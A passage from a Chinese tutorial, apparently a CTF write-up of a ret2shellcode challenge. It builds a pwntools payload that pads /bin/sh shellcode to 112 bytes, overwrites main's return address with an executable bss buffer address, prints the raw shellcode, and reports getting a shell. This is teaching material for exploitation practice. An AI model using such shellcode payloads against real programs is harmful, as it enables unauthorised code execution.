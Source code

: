 从上面输出的内容可以看到，shellcraft.sh()的内容就是相当于执行了system('/bin/sh')或evecve('/bin/sh')

了解了以上的内容之后，我们看一下payload中的：shellcode.ljust(112, 'A') 

我们知道shellcode是字符串类型，上菜鸟教程上查找易得：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597297761070-5d015399-4d61-4809-9b43-5f15985b976d.png)

简单来说，str.ljust使用自定义字符将shellcode补齐为112个字符，因此shellcode打印出来就是：

```python
#!/usr/bin/env python
from pwn import *

shellcode = asm(shellcraft.sh()) 
payload=shellcode.ljust(112, 'A')

print payload
'''
print:
jhh///sh/bin\x89�h\x814$ri1�Qj\x04�Q��1�j\x0b̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
'''
```

注意一下payload：shellcode.ljust(112, 'A') + p32(buf2_addr)

首先我们将payload输入到变量s也就是栈上，然后将**<font style="color:#F5222D;">main函数的返回地址</font>**<font style="color:#000000;">覆盖为buf2_addr（此bss段可执行），之后main函数执行</font>strncpy(buf2, &s, 100u);（虽然shellcode被截断为100，但是被截断的内容只是A，并不影响shellcode的完整度），将内容复制到了buf2，由于**<font style="color:#F5222D;">main函数的返回地址被覆盖为shellcode的地址，因此在main函数执行完毕之后，EIP转向执行shellcode</font>**

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596450550818-003b2481-3fd8-4cb3-ba87-f0fb1dd752c1.png)

成功getshell

